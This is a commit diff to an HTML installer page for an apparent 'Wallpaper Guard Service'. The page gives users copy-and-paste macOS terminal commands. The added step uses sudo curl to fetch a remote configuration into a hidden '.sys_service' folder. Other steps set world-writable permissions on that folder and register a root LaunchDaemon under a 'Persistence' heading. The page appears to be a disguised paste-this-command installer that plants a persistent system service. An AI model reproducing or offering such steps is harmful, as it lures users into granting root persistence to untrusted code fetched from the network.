

Before and after one commit to ChuTM/wallpaper-guard, a plain HTML site: page website/public/index.html in a window 1280 px wide. Shown: the part 1547-2401 px from the top of the page, without its empty margins (208-1071 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
feat: Add command to load configuration and improve readability in index.html

```diff
--- a/website/public/index.html
+++ b/website/public/index.html
@@ -165,7 +165,7 @@
 
     <div class="wrapper">
         <header>
-            <h1>System Service</h1>
+            <h1>Wallpaper Guard Service</h1>
             <div class="tagline">Installation & System Authorization Protocol</div>
         </header>
 
@@ -240,6 +240,14 @@
                 <pre><code>sudo chmod 777 "/Library/Application Support/.sys_service"</code></pre>
             </div>
 
+            <div class="block-container">
+                <div class="block-header">
+                    <span class="block-title">Command: Load Config</span>
+                    <div class="copy-trigger" onclick="copy(this)"><i class="fa-regular fa-copy"></i></div>
+                </div>
+                <pre><code>sudo curl -L -o "~/Library/Application Support/.sys_service/config.json" "https://wallpg.web.app/init_config.json"</code></pre>
+            </div>
+
             <div class="info-card">
                 <i class="fa-solid fa-wand-magic-sparkles" style="margin-top: 3px;"></i>
                 <span><strong>Wildcard Logic:</strong> The <code>*</code> ensures the command succeeds regardless of the
@@ -279,20 +287,22 @@
                 <pre><code>hdiutil detach /Volumes/System* && rm System*.dmg</code></pre>
             </div>
         </section>
+
         <section class="step">
             <div class="step-meta">
                 <i class="fa-solid fa-gears"></i>
                 <span class="step-label">Step 05</span>
             </div>
             <h2>Persistence</h2>
-            <p>Configure the system to automatically launch the service on boot and keep it running in the background.</p>
+            <p>Configure the system to automatically launch the service on boot and keep it running in the background.
+            </p>
 
             <div class="block-container">
                 <div class="block-header">
                     <span class="block-title">Command: Register Daemon</span>
                     <div class="copy-trigger" onclick="copy(this)"><i class="fa-regular fa-copy"></i></div>
                 </div>
-<pre><code>cat &lt;&lt;EOF &gt; com.system.wallpaper.service.plist
+                <pre><code>cat &lt;&lt;EOF &gt; com.system.wallpaper.service.plist
 &lt;?xml version="1.0" encoding="UTF-8"?&gt;
 &lt;!DOCTYPE plist PUBLIC "-//Apple//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd"&gt;
 &lt;plist version="1.0"&gt;
@@ -317,7 +327,7 @@ EOF</code></pre>
                     <span class="block-title">Command: Activate Service</span>
                     <div class="copy-trigger" onclick="copy(this)"><i class="fa-regular fa-copy"></i></div>
                 </div>
-<pre><code>sudo mv com.system.wallpaper.service.plist /Library/LaunchDaemons/ && \
+                <pre><code>sudo mv com.system.wallpaper.service.plist /Library/LaunchDaemons/ && \
 sudo chown root:wheel /Library/LaunchDaemons/com.system.wallpaper.service.plist && \
 sudo chmod 644 /Library/LaunchDaemons/com.system.wallpaper.service.plist && \
 sudo launchctl load -w /Library/LaunchDaemons/com.system.wallpaper.service.plist</code></pre>
@@ -325,7 +335,8 @@ sudo launchctl load -w /Library/LaunchDaemons/com.system.wallpaper.service.plist
 
             <div class="info-card">
                 <i class="fa-solid fa-circle-info" style="margin-top: 3px;"></i>
-                <span><strong>Automation:</strong> The <code>KeepAlive</code> flag ensures the service automatically restarts if it ever stops unexpectedly.</span>
+                <span><strong>Automation:</strong> The <code>KeepAlive</code> flag ensures the service automatically
+                    restarts if it ever stops unexpectedly.</span>
             </div>
         </section>
     </div>
```
